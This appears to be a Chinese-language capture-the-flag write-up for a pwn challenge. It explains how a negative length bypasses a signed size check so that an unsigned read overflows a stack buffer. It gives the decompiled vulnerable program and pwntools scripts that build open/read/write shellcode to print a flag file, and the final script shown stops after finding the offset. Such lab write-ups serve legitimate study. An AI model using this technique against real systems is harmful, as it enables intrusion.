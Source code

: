 ```
b'\xff\xe4'
```

我这边的pwntools不能直接调用把这个转化成数值的`p64`函数，所以只能自己算补码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[16]; // [rsp+0h] [rbp-10h] BYREF

  init_seccomp_whitelist();                     // init
  write(1, "In old days, the letter is asked to be short.\n", 0x2EuLL);
  write(1, "how much character do you want to send?\n", 0x28uLL);
  read(0, buf, 0x10uLL);
  LODWORD(length) = atoi(buf);
  if ( (int)length > 15 )
  {
    write(1, "sorry, too long.\n", 0x11uLL);
  }
  else
  {
    read(0, buf, (unsigned int)length); //无符号数-1是MAX(unsigned int)
    write(1, "hope the letter can be sent safely.\n", 0x24uLL);
  }
  return 0;
}
```

算补码的原因是要通过负数绕过`if ( (int)length > 15 )`的检查，然后下面把length当作无符号整数来作为读取输入的长度，经典考点了

补码符号位是高位，程序是`little`，所以我们需要让`length=0xffffe4ff`，输入就要是`-6913`

之后通过第二个read在栈上写入shellcode即可，shellcode我直接通过`shellcraft`构造，偏移通过`cyclic`找，不得不说没pwntools我做不了pwn

构造shellcode的脚本

```python
context.arch='amd64'
context.endian='little'
context.os='linux'
context.log_level='debug'
flag_length=0x47
payload=shellcraft.amd64.open('flag',0)
payload+=shellcraft.amd64.read(3,'rsp',flag_length)
payload+=shellcraft.amd64.write(1,'rsp',flag_length)
print(payload)
```

这个`flag_length`是一位一位加试出来的，把输出保存到同文件夹的shellcode_asm文件里

那接下来很简单，覆盖返回地址到length，之后写入shellcode，最终脚本如下

```python
from pwn import *
from pwnlib import *
context.arch='amd64'
context.endian='little'
context.os='linux'
context.log_level='debug'
# payload=shellcraft.amd64.open('flag',0)
# payload+=shellcraft.amd64.read(3,'rsp',0x200)
# payload+=shellcraft.amd64.write(1,'rsp',0x200)
asm.context.arch='amd64'
asm.context.endian='little'
asm.context.os='linux'
shellcode=asm.asm(open('shellcode_asm','r').read())
print("len:",len(shellcode))
print(cyclic_find('agaaahaa')) #37
```
